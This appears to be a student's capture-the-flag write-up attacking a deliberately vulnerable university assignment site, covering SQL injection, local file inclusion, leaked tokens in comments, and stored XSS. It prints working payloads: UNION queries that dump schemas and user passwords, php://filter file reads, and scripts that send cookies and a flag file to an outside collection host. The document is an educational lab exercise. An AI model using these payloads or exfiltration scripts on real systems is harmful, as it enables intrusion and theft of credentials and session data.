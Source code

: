 ### SQLI on Search Page  Extreme

1. Visit the search page, input `' or 1=1 #'` outputs all results, which indicates it may have SQL injection.

2. Next, we need to find the number of columns. Since there are 4 columns displayed, we start testing from `'union select 1,2,3,4#`, which luckily gives the following result.

   <img src="img\2.1.png" alt="2.1" style="zoom: 67%;" />

3. Next, input `'union select 1,schema_name,3,4 from information_schema.schemata#` to retrieve all the schemas and the result is shown as follows. Now we know the names of all schemas which allow us to dive deeper.

   <img src="img\2.2.png" alt="2.2" style="zoom:67%;" />

4. Next, we can search the table names of different schemas. For example, input `'union select 1, table_name,3,4 from information_schema.tables where TABLE_SCHEMA='Secure'#` will give the following results, including a table named Flag which we should be interested to.

   <img src="img\2.3.png" alt="2.3" style="zoom:67%;" />

5. Next, we need to know the column names of the Flag table. Input `'union select 1,column_name,3,4 from information_schema.columns where table_name = "Flag" and table_schema="Secure"#` will provide us the result.

   <img src="img\2.4.png" alt="2.4" style="zoom:67%;" />

6. Finally, we can retrieve the string in Flag. Input `'union select 1,string,3,4 from Secure.Flag#` will give us the flag: `FLAG{Turning_them_tables_with_a_squiggle!@#1teeHee}`

<img src="img\flag2.png" alt="flag2" style="zoom:67%;" />

7. Input `'union select 1,column_name,3,4 from information_schema.columns where table_name = "Users" and table_schema="Secure"#`:

<img src="img\2.5.png" alt="2.5" style="zoom:67%;" />

8. Input `'union select Id,Password,Username,Website from Secure.Users#` provides:

<img src="img\2.6.png" alt="2.6" style="zoom:67%;" />



### LFI  High

1. `http://assignment-dusty-rose.unimelb.life/style.php?css_file=custom.css` is requested when the login page is visited, which indicates there may be LFI.

   <img src="img\1.1.png" alt="1.1" style="zoom: 80%;" />

2. Visit `http://assignment-dusty-rose.unimelb.life/style.php?css_file=php://filter/convert.base64-encode/resource=style.php` and decode the response to get the content of `style.php`. Though there is no flag in the file, we can know some of the website's defense mechanisms without authentication. Following is `style.php`: 

   ```php
   <?php
   
   if (isset($_GET["css_file"])){
   
       $file = $_GET["css_file"];
   
       if ($file[0] === "/"){
           die("Hacker detected");
       }
   
       $blacklist = array("/etc", "/usr", "/opt", "/dev", "/var", "/tmp", "auth", "search", "retrieve", "flag", "push", "pull", "../");
   
       foreach ($blacklist as $item){
           if (strpos($file, $item) !== false){
               die("Hacker detected");
           }
       }
   
       include($file);
       header("Content-Type: text/css");
   }
   ```

3. After authentication, we can have access to files such as `dashboard.php` and `login.php`. Visit `http://assignment-dusty-rose.unimelb.life/style.php?css_file=php://filter/convert.base64-encode/resource=dashboard.php` to get `dashboard.php`, we can find it requires other files including `sober.php`.

   <img src="img\1.2.png" alt="1.1"  />

4. Finally, visit `http://assignment-dusty-rose.unimelb.life/style.php?css_file=php://filter/convert.base64-encode/resource=sober.php` and we can get the flag: `FLAG{The_deepeR_YoU_Dig,_the_m0re_GOLD_you'll_find!}`

   <img src="img\flag1.png" alt="1.2"  />



### Information Disclosure  Medium

1. Recall that we have retrieved `dashboard.php` using LFI. Following are the lines of comments from #152 to #160:

   ```php
   // TODO: Fix up the background POST request. AJAX isn't working properly!
   /*
   var xhttp = new XMLHttpRequest();
   xhttp.open("POST", "retrieve.php", true);
   // add in headers: 
   // csrf => 8TdHvHDKu2368W474TTLgPcvWs8Q96aX
   // X-Auth => secure-auth
   xhttp.send("auth=@^?@NzcW+S3rSNDdQfwfdp@SD#M^Kx%5WMfxByWJS7@&HgFK-S&operation=fetch");
   /*
   ```

2. It seems developers have leaked some sensitive information here. We can try to make post requests to this address by modifying a post request as the following shows, which gives the flag:

   `FLAG{!!!ɘmoƨɘwɒ_ƨi_ϱniɿɘɘniϱnɘ_ɘƨɿɘvɘɿ}`

   <img src="img\flag4.png" alt="flag4"  />

   Note that the request must be authenticated, otherwise it will just return the login page.



### XSS in User Profile  High

1. There are some blocks allowing user inputs in the **User Profile** page, which may lead to XSS. Input `<script> alert(1) </script>` in these blocks to find a place for XSS. After pressing **PREVIEW PROFILE**, the **About Me** section is found to be a injection point.

2. Next, try to steal cookie using the following script:

   ```javascript
   <script>
   var x = new XMLHttpRequest();
   x.open("GET", "https://loop5.free.beeceptor.com/cookie?" + document.cookie);
   x.send();
   </script>
   ```

3. The cookie is sent to beeceptor as shown below:

   <img src="img\3.1.png" alt="3.1"  />

4. Since there is no flag contained, we need to seek other ways. Remember that in `style.php`, "flag" is in the blacklist. Visit `http://assignment-dusty-rose.unimelb.life/style.php?css_file=php://filter/convert.base64-encode/resource=flag.php` gives the following response, which indicates `flag.php` may exist.

   <img src="img\3.2.png" alt="3.2" style="zoom:67%;" />

5. Try to retrieve flag.php using AJAX call as the following script shows.

   ```javascript
   <script>
   var x = new XMLHttpRequest();
   x.onreadystatechange = function() {
       if (x.readyState === XMLHttpRequest.DONE) {
           var y = new XMLHttpRequest();
           y.open("GET", "https://loop5.free.beeceptor.com/flag=" + x.responseText);
           y.send();
       }
   };
   x.open("GET", "http://assignment-dusty-rose.unimelb.life/flag.php")
   x.send()
   </script>
   ```

6. Press `PUBLISH PROFILE FOR APPROVAL`, beeceptor gives `flag=Unauthorised!`. Look into the request header, the domain of referer is `http://localhost/` instead of `http://assignment-dusty-rose.unimelb.life/`.

   ```
   {
     "user-agent": "Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1",
     "accept": "*/*",
     "accept-encoding": "gzip, deflate",
     "accept-language": "en,*",
     "referer": "http://localhost/pull.php",
     "x-forwarded-for": "194.195.251.148",
     "x-forwarded-host": "loop5.free.beeceptor.com",
     "x-forwarded-proto": "https"
   }
   ```

7. Update the script and the flag is retrieved as below shows:

   `flag=FLAG{Mmm,_aren't_cookies_just_the_best!}`

   ```javascript
   <script>
   var x = new XMLHttpRequest();
   x.onreadystatechange = function() {
       if (x.readyState === XMLHttpRequest.DONE) {
           var y = new XMLHttpRequest();
           y.open("GET", "https://loop5.free.beeceptor.com/flag=" + x.responseText);
           y.send();
       }
   };
   x.open("GET", "http://localhost/flag.php")
   x.send()
   </script>
   ```

   <img src="img\flag3.png" alt="flag3"  />





